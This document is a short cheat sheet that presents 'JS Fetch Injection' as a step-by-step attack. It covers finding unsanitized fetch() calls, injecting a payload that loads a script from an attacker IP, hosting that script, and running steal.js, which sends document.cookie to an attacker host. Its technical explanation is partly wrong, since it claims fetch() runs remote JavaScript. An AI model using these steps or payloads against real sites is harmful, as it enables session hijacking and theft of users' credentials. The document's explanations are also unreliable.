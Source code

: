 📋 TODO - JS Fetch Injection Exploitation
🔍 1. Recon the JavaScript Files
 Open Developer Tools → Go to Network tab → Refresh page.

 Filter by JS and inspect all JavaScript files.

 Locate fetch() or XMLHttpRequest() instances in loaded JS files.

🔧 Goal: Identify dynamic API endpoints fetching data that could be influenced.

🔓 2. Search for Unsanitized Fetch URLs
 Ctrl+F in minified JS to locate lines like:

js
Copy code
fetch('/api/resource?id=' + userInput)
🔍 Check if userInput is controllable via URL params or form data.

🧠 Strategy: Tampering unsanitized fetch input can lead to injection or path traversal.

🧪 3. Manipulate with Payload
 Inject malicious payload via browser URL or intercepted request:

bash
Copy code
/#/search?q=';fetch("http://<attacker-ip>/steal.js")
🛠️ Use Burp Suite to intercept and modify payloads.

🛡️ Back-End Tech: If input is not validated or encoded, fetch() will execute remote JS.

🔎 4. Host Malicious JS
 Use a Python HTTP server to host:

bash
Copy code
python3 -m http.server 8000
📄 steal.js may contain:

js
Copy code
fetch('http://attacker-ip/steal?cookie=' + document.cookie)
📦 5. Check Response for Execution
 Monitor terminal or web server logs.

🧠 Goal: If fetch executes, you’ll see incoming GETs to /steal?cookie=....

🧼 6. Verify Exploitation & Cleanup
 Confirm execution of injected JS.

 Clean up any hosted malicious files.

